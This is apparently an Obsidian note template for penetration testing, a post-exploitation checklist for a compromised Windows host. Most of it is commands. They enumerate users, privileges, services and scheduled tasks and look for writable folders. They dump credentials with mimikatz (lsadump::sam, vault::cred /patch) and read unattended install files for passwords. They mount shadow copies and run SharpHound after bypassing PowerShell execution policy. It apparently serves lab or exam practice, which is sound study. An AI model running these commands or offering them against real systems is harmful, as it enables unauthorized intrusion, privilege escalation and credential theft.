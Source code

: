 <% tp.file.rename("2_loot_Windows")%>
Hostname `hostname`
	

## PrivEsc Relevant (winPEAS und adPEAS script?)

##### Users
```powershell
net user
```

```powershell
net user /domain
```
	

##### Privileges:
```powershell
whoami /all
```

```powershell
reg query "HKU\S-1-5-19"
```
(SeImpersonatePrivilege or SeAssignPrimaryToken -> Juicy Potatoe)
	
Example for administrative, non-vulnerable account:
	```
	Group Name                                                    Type             SID          Attributes
	============================================================= ================ ============ ==================================================
	Everyone                                                      Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
	NT AUTHORITY\Local account and member of Administrators group Well-known group S-1-5-114    Group used for deny only
	BUILTIN\Administrators                                        Alias            S-1-5-32-544 Group used for deny only
	BUILTIN\Users                                                 Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
	NT AUTHORITY\REMOTE INTERACTIVE LOGON                         Well-known group S-1-5-14     Mandatory group, Enabled by default, Enabled group
	NT AUTHORITY\INTERACTIVE                                      Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
	NT AUTHORITY\Authenticated Users                              Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
	NT AUTHORITY\This Organization                                Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
	NT AUTHORITY\Local account                                    Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
	LOCAL                                                         Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
	NT AUTHORITY\NTLM Authentication                              Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
	Mandatory Label\Medium Mandatory Level                        Label            S-1-16-8192
	``` https://learn.microsoft.com/de-de/windows-server/identity/ad-ds/manage/understand-special-identities-groups
##### Working Dir for attack
```powershell
Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
```
	
##### Passwords (mimikatz)
```powershell
privilege::debug
```

```powershell
token::elevate
```

```powershell
lsadump::sam
```
(lsadump::lsa /patch ??)
```powershell
vault::cred /patch
```
	
##### SysInfo
```powershell
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```
	
##### Running processes
```powershell
tasklist /SVC
```
	
Standard processes:
	AggregatorHost
	CompatTelRunner
	conhost
	csrss
	ctfmon
	dllhost
	dwm
	fontdrvhost
	LogonUI
	lsass
	MicrosoftEdgeUpdate
	msdtc
	MsMpEng
	rdpclip
	RuntimeBroker
	SearchHost
	SearchIndexer
	SecurityHealthSystray/-Service
	services
	SgrmBroker
	ShellExperienceHost
	sihost
	smss
	StartMenuExperienceHost
	svchost
	taskhostw
	tasklist
	vm3dservice
	vmtoolsd
	wininit
	winlogon
	WmiApSrv
	WmiPrvSE
	WUDFHost
##### Installed programs
```powershell
wmic product get name"," version"," vendor
```
	
##### Services
```powershell
wmic service get name","displayname","pathname","startmode |findstr /i "auto" |findstr /i /v "c:\windows\\"
```
	
##### Scheduled tasks
```powershell
schtasks /query /fo LIST /v
```

```powershell
schtasks /query /fo CSV /v | ConvertFrom-Csv | where { $_.Status -ne "Disabled" } | where { $_.Author -notlike "*Microsoft*" } | where { $_.Author -notlike "*N/A*" } | where { $_.Author -ne "Author" }
```

```powershell
schtasks /query /fo CSV /v | ConvertFrom-Csv | where { $_.Status -ne "Disabled" } | where { $_."Run As User" -like "SYSTEM" }
```
	
##### Systemwide patches
```powershell
wmic qfe get Caption"," Description"," HotFixID"," InstalledOn
```
	

## Loot for later
##### Home folder
```powershell
dir /B /S /A-D
```

```powershell
Get-ChildItem -Recurse -Path C:\Users\offsec | select Parent,Name
```
	
##### Network interfaces
```powershell
ipconfig /all
```
	
##### Firewall settings
```powershell
netsh advfirewall show currentprofile, netsh advfirewall firewall show rule name=all
```
	
##### Gateways
```powershell
route print
```
	
##### Listeners/Connections
```powershell
netstat -ano
```
	
##### Mounted Volumes
```powershell
mountvol
```
	
##### Drivers	
```powershell
driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object "Display Name", "Start Mode", "Path"
```
	
##### Devices
```powershell
Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer
```
	
##### Softwareverteilung?
```powershell
cat c:\sysprep.inf
```

```powershell
cat c:\sysprep\sysprep.xml
```

```powershell
cat %WINDIR%\Panther\Unattend\Unattended.xml
```

```powershell
cat %WINDIR%\Panther\Unattended.xml
```
	
Shadow Copy?
```powershell
vssadmin list shadows
```

```powershell
mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\
```
	


# Bloodhound
Kali:
```bash
sudo apt-get install neo4j bloodhound && sudo neo4j console && bloodhound
```

```bash
scp SharpHound.exe $user@$hip:"C:\\Users\\$user\\Downloads"
```

Victim:
```powershell
powershell -ep bypass
```

```powershell
cd Downloads
```

```powershell
.\SharpHound.exe --CollectionMethods All --zipfilename data.zip -d $dnsserver
```





# Findings